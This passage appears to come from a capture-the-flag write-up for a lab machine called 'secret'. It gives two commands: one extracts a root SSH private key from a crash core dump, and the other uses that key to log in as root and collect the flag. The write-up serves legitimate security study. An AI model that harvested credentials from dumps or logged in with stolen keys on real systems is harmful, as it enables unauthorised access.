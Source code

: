 



We can find the content of ssh key in CoreDump. That can be extracted from the file by,

```
dasith@secret:/var/crash/ssh$ grep BEGIN out -A37 > root_key
```



Got the private key of root, now we can login using the key,

```
dasith@secret:/var/crash/ssh$ ssh -i root_key root@secret
```

Login success and can find the root flag in the home directory.


